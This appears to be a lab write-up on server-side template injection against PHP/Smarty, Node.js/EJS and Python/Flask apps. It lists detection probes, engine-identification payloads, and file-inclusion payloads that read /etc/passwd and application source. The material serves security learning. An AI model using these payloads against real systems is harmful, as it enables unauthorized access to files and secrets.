 
### Detecting SSTI

We attempt to detect SSTI on all three ports and find one for each technology.

| Technology  | Port  | Payload Sent       | Result   |
|:-----------:|------|-------------------|-----------|
| PHP         |  80  | `{7*7}`           | Hello, 49! |
| Node.js     | 3000 | `<%=7*7%>`        | Hello, 49! |
| Python      | 5000 | `{{7*7}}`         | Hello, 49! |

### Identifying the Template Engine Behind the Scenes

Each backend technology (PHP, Node.js, Python, Java, etc.) can use different template engines (Smarty, EJS, etc.). Some engines are more commonly associated with specific technologies, but there are unusual setups that allow engines designed for PHP to run in Node.js (e.g., https://github.com/ecomfe/smarty4js), among others.

Besides the techniques explained in the previous references, we can also attempt to better understand how each template engine works and use specific variables that are unique to each engine.

Example:

| Technology  | Port  | Payload Sent               | Expected Result                                    |
|:-----------:|------|-------------------------------|-------------------------------------------------------|
| PHP         |  80  | `{$smarty.version}`           | Version of the **Smarty** template engine             |
| Node.js     | 3000 | `<%=JSON.stringify(locals)%>` | All variables included in the **EJS** template        |
| Python      | 5000 | `{{config}}`                  | **Flask** configuration                              |

These are just a few examples. The key is to familiarize yourself with each template engine to properly identify them.

### Achieving LFI (Local File Inclusion) and RCE (Remote Code Execution)

Now that we know which technologies are running on the backend and the payloads that allow us to execute PHP, Node.js, and Python through template injection, we can leverage the built-in functions, libraries, and modules of these technologies to achieve LFI and RCE.

#### LFI Examples Table

| Technology  | Port  | Payload Sent                                                                                                  | Result                        |
|:-----------:|------|----------------------------------------------------------------------------------------------------------------|--------------------------------|
| PHP         |  80  | `{file_get_contents("/etc/passwd")}`                                                                           | Passwd file                   |
| Node.js     | 3000 | `<%- include("/app/node-app/app.js")%>`                                                                        | Application source code        |
| Python      | 5000 | `{{'X'.__class__.__base__.__subclasses__()[101].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}` | Passwd file                   |

As seen in **PHP**, it was very easy. In **Node.js** with EJS, I was only able to retrieve files with system extensions, and in **Python**, I followed the instructions from **Ingo Kleiber** in his post [A Simple Flask (Jinja2) Server-Side Template Injection (SSTI) Example](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/).
